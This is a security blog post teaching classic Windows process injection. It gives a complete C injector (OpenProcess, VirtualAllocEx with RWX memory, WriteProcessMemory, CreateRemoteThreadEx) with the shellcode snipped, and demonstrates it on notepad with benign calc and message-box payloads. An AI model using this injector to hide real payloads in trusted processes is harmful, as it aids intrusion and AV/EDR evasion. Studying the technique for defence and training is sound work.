






# Into the Abyss 
<br>
<center>

"And if you gaze long into an abyss, the abyss also gazes into you."
<br>- Friedrich Nietzsche
</center>

<br>


## Introduction

Now that we've already spent countless hours going down the rabbit hole in the previous post, it's interesting to see what a bit of motivation can do. I've had access to [MalDev Academy](https://maldevacademy.com/) for quite some time, completed all the beginner modules, but never continued—mainly due to a lack of focus. So, the first few blog posts will probably focus on what I’ve learned from those beginner modules and my OSEP journey as I get back into it.

Since a few friends pointed out that I should include a disclaimer for these types of blogs, here's the mandatory one:

> _Everything shared on this blog is purely for educational purposes and meant to spark ideas or help you learn. If you decide to try anything mentioned here, you’re doing so at your own risk. Please use your best judgment and do your own research before taking action._

Also, since I’ve received a few questions about the code (including from the previous blog), I’ll be storing all the `C` code for this blog series in my [Github repository](https://github.com/ShadowBumble/TheAbyss).

Let’s dive into some more basics—starting with one of the foundational concepts: **Process Injection**.

## Process Injection

**Process Injection** in the context of offensive development is essentially a technique where code is injected into a legitimate process. The idea is to “hide in plain sight” by executing within the memory space of a trusted process.

To give a more tangible example:

Let’s say you have a clean process like `explorer.exe` or `svchost.exe` running — both of which are usually allowed and trusted by the OS. The attacker’s goal is to inject their code into that process so the payload runs under the guise of a legitimate application.

The [Process Injection](https://attack.mitre.org/techniques/T1055/) technique has several [subtechniques](https://attack.mitre.org/techniques/T1055/), according to the MITRE ATT&CK framework. Some commonly used examples include:

- [**DLL Injection**](https://attack.mitre.org/techniques/T1055/001/): Load a malicious DLL into the target process.
- [**Process Hollowing**](https://attack.mitre.org/techniques/T1055/012/): Create a legitimate process in a suspended state, strip its memory, replace it with malicious code, then resume execution.
- [**Thread Execution Hijacking**](https://attack.mitre.org/techniques/T1055/003/): Allocate memory in another process, write malicious code into it, then start a new thread in that process to execute it.

Basically, we’re leveraging a clean, running process or application to do our dirty work. This can help evade detection by antivirus (AV) and/or endpoint detection and response (EDR) tools. In some cases, it may be enough to hide from traditional AV, but for EDR evasion, this technique is typically part of a broader chain of actions. On its own, process injection is often detected—so it’s commonly used in combination with other techniques to successfully deliver and execute payloads.


## A Proof of Concept

So we can make a small PoC that showcases this technique. I know you can find tons of PoCs for this already, but `¯\_(ツ)_/¯`.

Let’s start with our basic template and then fill it in piece by piece in the various sections. One of the things I picked up pretty quickly after watching various videos on YouTube (shoutout to [cr0w](https://www.youtube.com/@crr0ww) for his awesome playlist and [GitHub](https://github.com/cr-0w)) during my OSEP journey is the use of text macros in your code, like the example below. 

Trust me, these kinds of "quality of life" improvements are king in offensive development.

```c
#include <windows.h>
#include <stdio.h>

#define okay(MSG, ...) printf("[+] "          MSG "\n", ##__VA_ARGS__)
#define info(MSG, ...) printf("[*] "          MSG "\n", ##__VA_ARGS__)
#define warn(MSG, ...) fprintf(stderr, "[-] " MSG "\n", ##__VA_ARGS__)

int main (int argc, char* argv[]) {

	okay("This is the okay macro");
	info("This is the info macro");
	warn("This is the warn macro");

  return 0;
}
```

Let’s do a quick test run to see if our macros are set up correctly:



And it seems they are — time to generate some shellcode to execute our trusty `calc.exe`. We can just leverage `msfvenom` for this:



So now we have some code to load up `calc.exe` from the process we’re going to inject into. From a logical perspective, we're going to execute the following steps:

**Step 1:** Attach to or create a process.  
**Step 2:** Allocate memory within that attached/created process.  
**Step 3:** Fill that allocated memory with our shellcode.  
**Step 4:** Create a thread in the process to run our inserted code.  
**Step 5:** Close the thread and process after our shellcode successfully runs.

This is basically the most plain version of Process Injection you can do. As always, I start from an empty template and fill in the pieces later.


```c
#include <windows.h>
#include <stdio.h>

#define OKAY(MSG, ...) printf("[+] "          MSG "\n", ##__VA_ARGS__)
#define INFO(MSG, ...) printf("[*] "          MSG "\n", ##__VA_ARGS__)
#define WARN(MSG, ...) fprintf(stderr, "[-] " MSG "\n", ##__VA_ARGS__)

// Position 1

int main (int argc, char* argv[]) {

// Position 2
// Position 3
// Position 4
// Position 5
// Position 6

  return 0;
}
```

For the program we are going to levarage some of the [Win32 API](https://learn.microsoft.com/en-us/windows/win32/api) functions:

|Handle|Description|Reference|
|:-|:-|:-|
`OpenProcess`|Opens an existing local process object.|[Link](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess)
`VirtualAllocEx `|Reserves, commits, or changes the state of a region of memory within the virtual address space of a specified process. The function initializes the memory it allocates to zero.|[Link](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)
`WriteProcessMemory`|Writes data to an area of memory in a specified process. The entire area to be written to must be accessible or the operation fails.|[Link](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)
`CreateRemoteThreadEx`|Creates a thread that runs in the virtual address space of another process and optionally specifies extended attributes such as processor group affinity.|[Link](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethreadex)

Important to be aware of is that every function has various attributes it can use and expects; some are optional, but others are mandatory or the function breaks. It's good to familiarize yourself with the options since they are very well documented in the Win32 API documentation.

I will hardcode the shellcode of the command to execute `calc.exe`. This saves quite some space and since `calc.exe` is by default installed on all Windows machines, you can almost replace this with anything you can create shellcode for. For example, we could also use a popup `message box` in exactly the same way by leveraging `msfvenom`.



I will get to this later since the resulting behavior is different for both options we have. Let's start with filling in our template. We know we need to have some handles and declarations in place, so on position 1 we will add the following:


```c
DWORD PID = 0, TID = 0;;
HANDLE hProcess = NULL, hThread = NULL;
LPVOID rBuffer = NULL;

unsigned char abysscalc[] = "Snip";
```

I personally like setting it up like this so that we have consistent behavior in the application, specifying the default value for each declaration—even when they are the same or even on the same line. This way, I'm using `NULL` where it's appropriate (for pointers and handles) and `0` for integer types instead of mixing them, which helps avoid your IDE complaining about those mixes. I have also cleaned the shellcode from the `unsigned char`, but that is the place where you would insert your code.

Let's start with some house cleaning for the application.

```c
  if (argc < 2) {
    WARN("Usage: application.exe <PID>");
    return EXIT_FAILURE;
  }
```
This code can be added to Position 2 in the template. It outputs a message if we forget to provide the `PID` of the process to inject into. Basically, the application always expects 2 arguments: the first argument is the application itself, while the second argument is the Process ID where we want to inject. Since we have set up the word macro, I always like some feedback from the program on which step it is and what it's doing. All these statements are optional, of course, but they make the blog and explanation much easier to read.


```c
  PID = atoi(argv[1]);
  INFO("trying to open a handle to process (%ld)", PID);

  /* Open a handle to the process */
  hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, PID);
  INFO("got a handle to the process!!\n\\---0x%p", hProcess);

  if (hProcess == NULL) {
    WARN("couldn't get a handle to process (%ld), error: %ld", PID, GetLastError());
    return EXIT_FAILURE;
  }
```

The above code is for Position 3. It declares the variable `PID` and assigns it the value of the second argument. We then try to open the process to get a handle using the `hProcess` variable and the `OpenProcess` function. The `OpenProcess` function accepts several attributes that you can specify.


```c
  /* Allocate bytes to process memory */
  rBuffer = VirtualAllocEx(hProcess, NULL, sizeof(abysscalc), (MEM_COMMIT | MEM_RESERVE), PAGE_EXECUTE_READWRITE);
  INFO("allocated %zu bytes with PAGE_EXECUTE_READWRITE permissions", sizeof(abysscalc));
```

Next, we can start working on allocating the bytes defined in `rBuffer` using the `VirtualAllocEx` function to reserve some space in the process memory to later execute the shellcode. We determine the size needed with the attribute `sizeof(abysscalc)`. The code above can be added to Position 4.

Now that we have allocated the bytes needed to store our shellcode in memory, it's time to actually write those bytes to that memory.


```c
  /* write bytes to allocated memory for processing */
  WriteProcessMemory(hProcess, rBuffer, abysscalc, sizeof(abysscalc), NULL);
  INFO("written %zu bytes to process memory", sizeof(abysscalc));
```

The attributes you see behind the `WriteProcessMemory` function are pretty self-explanatory, but unfortunately, that is definitely not always the case. Just remember that usually your IDE gives you a popup box showing what attributes a specific function needs. Also, referring to the Win32 API link above helps tremendously. The above code goes in Position 5 of the template.

Now that we’re almost there, all that remains is creating the thread to execute the code and cleaning up the open handles.


```c
  /* create thread to run our shellcode */
  hThread = CreateRemoteThreadEx(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)rBuffer, NULL, 0, 0, &TID);

  if (hThread == NULL) {
    WARN("failed to get handle to the thread, error: %ld", GetLastError());
    return EXIT_FAILURE;
  }

  INFO("got a handle to the thread (%ld)\n\\---0x%p", TID, hThread);
```

Let’s add the above code to Position 6. Since I already wrote the code to memory, it’s now just a matter of executing the code in a new thread within the process. We include a built-in check to see if we can, or are allowed to, actually do this, and if not, report back to us with the system error. Now, all that remains is cleaning up.


```c
  INFO("waiting for thread to finish.");
  WaitForSingleObject(hThread, INFINITE);
  INFO("thread finished executing.");

  INFO("Cleaning up the open leftover handles.");
  CloseHandle(hThread);
  CloseHandle(hProcess);
  OKAY("finished cleaning up!!");
```

In this part of the code, we simply wait for the thread to finish executing and then clean up the handles. That wraps up the code section of this blog.


## Different behaviours

Now that I’ve finished the injector, it’s time to dive a bit into the different behaviors mentioned earlier. Let’s first test if `calc.exe` actually spawns.



The timing of the screenshot was the hardest part in this execution because I also wanted to show the spawning of the child process under `notepad.exe`. After `calc.exe` spawns, `notepad.exe` closes after the cleanup is finished. This is because, as `calc.exe` is spawned, it doesn’t need to wait for input or verification. Technically, the thread finishes execution and closes immediately after.

But by using the Message Box shellcode, we can force the thread to wait before closing and demonstrate this a bit more.



There’s quite a bit of information in the above screenshot, so let’s walk through it. The PowerShell window shows the execution of the process injection to our target `notepad.exe`, with the Process ID of `12684`. This can be verified in the Process Hacker window on the right side, showing that the `12684` Process ID belongs to notepad.

Following the flow of execution of our injector, the above is covered by the following three lines.

```pwsh
[i] trying to open a handle to process (12684)
[i] got a handle to the process!!
\---0x00000000000000B4
```

Now that we have a handle on the process, the injector moves to the next function, which allocates and writes the bytes to the process memory.

```pwsh
[i] allocated 359 bytes with PAGE_EXECUTE_READWRITE permissions
[i] written 359 bytes to process memory
```

The next step is to create the thread and get a handle to it for executing the bytes we just allocated and wrote.


```pwsh
[i] got a handle to the thread (32244)
\---0x00000000000000BC
[i] waiting for thread to finish
```

Here it becomes clear how the behavior differs since the message box is waiting for our confirmation by pressing the "OK" button. Effectively, the thread execution finishes only after we press "OK." Because we are not pressing "OK," the injector patiently waits (INFINITE), pausing its flow. This gives us the opportunity to take a closer look at the process level.

Let's zoom in on the "Find Handles or DLLs" window from Process Hacker, as this clearly shows the relationship between the injector, Notepad process, and thread.



When we executed the injector, it returned a handle to use, which I can look up (32244). This way, I can verify that a process called `AbyssProcInject.exe` with Process ID `37472` has an open handle on `Notepad.exe` with Process ID `12864`. The handle is of the type Thread, as intended with the `CreateRemoteThreadEx` function. I can additionally confirm that the returned handle value shown here (`0xBC`) matches all the output from our injector.

When we press `OK`, the thread finishes and the injector continues executing the flow and starts cleaning up.

## Wrapping up

While this current implementation is almost the most vanilla way of doing process injection, it is also one of the most foundational ones. It's a must-have and it teaches you a good understanding of how threads, handles, and processes work. It gives you more experience with the Win32 API and overall sets you up for more complicated techniques, like EarlyBird APC Injection or even the more complex Early Cascade Injection technique.
